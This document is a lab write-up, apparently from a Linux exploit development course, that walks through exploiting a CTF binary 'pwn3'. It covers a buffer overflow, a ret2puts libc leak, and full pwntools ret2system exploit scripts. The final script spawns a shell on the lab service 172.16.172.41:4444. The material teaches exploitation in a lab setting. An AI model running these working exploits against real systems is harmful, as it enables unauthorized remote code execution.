## Task 1: Connect to the lab and examine the binary

Try to access the service at 172.16.172.41:4444. Compare it with the "pwn3" binary available on xdev's Desktop. Try to find the buffer overflow vulnerability and control the EIP.

We used a binary from Encrypt CTF for this challenge. The binary is available at: [https://github.com/mishrasunny174/encrypt-ctf/tree/master/pwn/x86/pwn3](https://github.com/mishrasunny174/encrypt-ctf/tree/master/pwn/x86/pwn3)

## Task 2: Design a ret2puts attack scenario

Check what functions are present in the binary. Perform a ret2puts attack which results in an information leak.

**Hint**: ASLR does not affect PLT or GOT, but when referring to PLT or GOT you might be able to see randomized locations. [The plt/got sections are not randomized themselves, but after the loader resolves the function names, got points to libc. libc is randomized, so we can abuse the fact that there is a non-randomized pointer to randomized location.]

## Task 3: Leak libc's address and use it

Remember that in libc, every function is at a constant offset from the libc base and from each other. Having one valid address of libc may allow you to calculate all other addresses dynamically.

## Task 4: return to main and re-exploit the binary

After leaking the information needed, return to main() so that you are able to re-launch your attack. Use the dynamically calculated addresses to perform a ret2system() attack. In the end, confirm your exploit works by attacking the remote service on 172.16.172.41:4444

---

## Lab Part
Tried to make crash the program



The program crashed in 200 bytes of `A`, open debugger and check security of file, offset, and try to override the `EIP`

First of all, check the security of system and file, as below picture, the program using Data Execution Prevention (DEP) - No Execute bit (NX) and Address space layout randomization (ASLR) with options 2 which mean full randomization



Next part, get the offset value, in this part, I am not going to use the `pattern create/offset` which is [peda](https://github.com/longld/peda)'s feature. Instead that, I will use cyclic, which is one of feature of pwnlib.
- `cyclic 200`
- 




- `pwn cyclic -l 0x6261616b` => Output: 140

Make a string to confirm that 140 `A` is the offset and override `EIP` with `BBBB`

- `python -c "print('A'*140+'B'*4)" > input.txt`



Greate, now we can control the EIP, but we could not attack because of the program has 2 security as mentioned above, so let's analysis the assembly code. 

In `gdb` debugger, set the disable-randomization to on:

- `set disable-randomization on`

Disassembly the `main` for many times to watch what is change, which address is not changed.



As above picture, we can see the libc address is not changed. `puts@plt` has same function like printf, but  `puts` will prevent the format string,  `gets@plt`  is the cause make the buffer overflow.

- So, the idea to overflow the program is print the value of `puts` twice, to get the EIP, then we will return to main, and calculate address of system(), exit(), and argument based on libc's address.



- `0x8048340` which is the pointer of address `puts@plt`. here we got 3 lines. In the first line, the DS make a new EIP, point to `0x80497b0` which is `puts@got.plt`, this means puts@plt make a new EIP point to puts@got.plt to check and input if have format string, then output, so we could take it to be the argument to print the output (include the return address of puts@plt)

```python
from pwn import *

put_plt = p32(0x8048340)
put_got = p32(0x80497b0)
return_address = p32(0x804847d)

payload = b'A'*140
payload += put_plt
payload += return_address
payload += put_got

exploit = process('./pwn3')
exploit.recvuntil('desert:')
exploit.sendline(payload)
exploit.recvline()
leak_add = u32(exploit.recvline()[:4])

log.info('put@libc: ' + hex(leak_add))
```



Now we leaked the `puts@plt` address, now get the based address of `system()`, `exit()`, and `/bin/sh` arguments. Breakpoint at `main` the following below picture's instruction.



Now, we write new exploit, with another new payload to re_exploit and ret2sys

```python
from pwn import *

put_plt = p32(0x8048340)
put_got = p32(0x80497b0)
return_address = p32(0x804847d)

payload = b'A'*140
payload += put_plt
payload += return_address
payload += put_got

exploit = process('./pwn3')
exploit.recvuntil('desert:')
exploit.sendline(payload)
exploit.recvline()
leak_add = u32(exploit.recvline()[:4])

log.info('put@libc: ' + hex(leak_add))

libc_base = leak_add - 0x5fca0 # puts_base
sys_add = p32(libc_base+0x3ada0)
exit_add = p32(libc_base + 0x2e9d0)
args = p32(libc_base + 0x15ba0b)

log.info('system@libc: '+hex(u32(sys_add)))
log.info('exit@libc: ' + hex(u32(exit_add)))
log.info('/bin/sh: ' + hex(u32(args)))

new_payload = b'A'*140 + sys_add + exit_add + args
exploit.send(new_payload)
exploit.interactive()
```



We got crashed, so check the core file, and we got the return address is pointing to `0x41414141`.



We just need remove 8 bits and re-run, and we success exploit the program.



Change the target to the host, and we success fully control the machine.

```python
from pwn import *

put_plt = p32(0x8048340)
put_got = p32(0x80497b0)
return_address = p32(0x804847d)

payload = b'A'*140
payload += put_plt
payload += return_address
payload += put_got

#exploit = process('./pwn3')
exploit = remote("172.16.172.41", 4444)
exploit.recvuntil('desert:')
exploit.sendline(payload)
exploit.recvline()
leak_add = u32(exploit.recvline()[:4])

log.info('put@libc: ' + hex(leak_add))

libc_base = leak_add - 0x5fca0 # puts_base
sys_add = p32(libc_base+0x3ada0)
exit_add = p32(libc_base + 0x2e9d0)
args = p32(libc_base + 0x15ba0b)

log.info('system@libc: '+hex(u32(sys_add)))
log.info('exit@libc: ' + hex(u32(exit_add)))
log.info('/bin/sh: ' + hex(u32(args)))

new_payload = b'A'*132 + sys_add + exit_add + args
exploit.send(new_payload)
exploit.interactive()
```



---
## Reference
- [Linux Exploit Development (INE).](https://my.ine.com/CyberSecurity/courses/eb1c83e7/linux-exploit-development)